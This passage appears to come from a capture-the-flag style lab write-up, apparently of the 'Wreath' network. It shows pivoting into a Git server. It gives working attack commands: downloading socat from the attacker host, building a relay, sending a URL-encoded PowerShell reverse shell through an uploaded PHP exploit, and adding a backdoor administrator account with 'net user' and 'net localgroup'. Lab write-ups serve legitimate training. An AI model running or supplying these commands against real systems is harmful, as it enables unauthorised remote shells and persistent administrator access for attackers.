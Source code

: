 1. on attacker `tcpdump -i tun0 icmp`
2. on target `ping -n 3 ATTACKER_IP`

0 ICMP ping packets make it to our listener so we have more work to do.

We are instructed for practice to setup a socat relay, and ensure that any ports we open are above 15000. BUT because this system has a CentOS IPTables firewall, before we do this we have to open the desired port in the firewall.

- on 10.200.105.200 `firewall-cmd --zone=public --add-port 15069/tcp` to open the desired port in firewall
- with a port open on the firewall its time to create a relay from 150 to 200 on 200, we can put the socat from the tools we downloaded onto ip 200 then create the relay
- download the socat binary `curl http://10.50.102.129/tools/Cats/Linux/socat -o /tmp/socat-0xskar && chmod +x /tmp/socat-0xskar`
- create the relay with socat `./socat-0xskar tcp-l:15069 tcp:10.50.102.129:443 &`  this sets up a listener on 15069 and a connection back to port 443 on out kali machine
- now with the relay setup we can send through a powershell reverse shell.
- `curl -X POST http://10.200.101.150/web/exploit-0xskar.php -d "a=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.101.200%27%2C15069%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22"`
- with a netcat listener setup we recieve a connection.

![0xskar](/assets/wreath08.png)

* * * 

## Git Server - Stabilisation & Post Exploitation 

We know ports 3389 (RDP) and 5985 are open. We also have highest authority so we can add ourselves as user to have RDP connection and get stable access to the box.

```
PS C:\GitStack\gitphp> net user 0xskar p@ssw0rd /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup Administrators 0xskar /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup "Remote Management Users" 0xskar /add
The command completed successfully.

PS C:\GitStack\gitphp> net user 0xskar
User name                    0xskar
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            13/09/2022 07:47:15
```